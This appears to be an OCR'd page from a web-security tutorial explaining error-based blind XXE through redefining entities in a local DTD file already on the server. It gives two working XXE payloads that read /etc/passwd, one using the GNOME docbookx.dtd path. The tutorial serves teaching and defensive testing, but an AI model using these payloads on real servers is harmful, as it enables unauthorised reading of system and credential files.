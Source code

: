 In this situation, it might still be possible to **trigger error messages containing sensitive data**, due to a loophole in the XML language specification. If a document's **DTD uses a hybrid of internal and external DTD** declarations, then the **internal DTD can redefine entities that are declared in the external DTD**. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

This means that an attacker can employ the **error-based XXE technique from within an internal DTD**, provided the XML parameter entity that they use is **redefining an entity that is declared within an external DTD**. Of course, if out-of-band connections are blocked, then the external DTD cannot be loaded from a remote location. Instead, it needs to be an **external DTD file that is local to the application server**. _Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data._

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

```markup
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

This DTD carries out the following steps:

* Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
* Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
* Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

  **Real world example:** Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
